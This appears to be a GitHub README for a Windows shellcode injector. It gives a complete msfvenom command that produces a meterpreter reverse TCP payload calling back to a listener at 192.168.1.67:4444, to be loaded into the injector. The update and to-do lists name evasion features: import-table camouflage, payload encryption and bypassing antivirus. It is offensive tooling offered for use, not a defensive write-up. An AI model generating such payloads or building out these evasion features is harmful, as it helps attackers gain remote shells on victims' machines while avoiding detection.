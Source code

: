 # Shellcode Injector
### instructions
1. Gen your msfvenom shellcode :
`msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe`
2. Put your shellcode in the `wannabe` variable.

### UPDATES 
- Added IAT camouflage
- Added Force loading kernel32.dll
- More to come.. need to bypass runtime...

### To do
- Add payload encryption and decryption
- Get shellcode from exe file and saving it in the var
- UI
- Bypass execution AV

### Warning
This does not bypass AV as of now, we did not implement anything for it. If you want to contribute and add it, feel  free to do so.
This is simply to play with memory allocation and execution. 
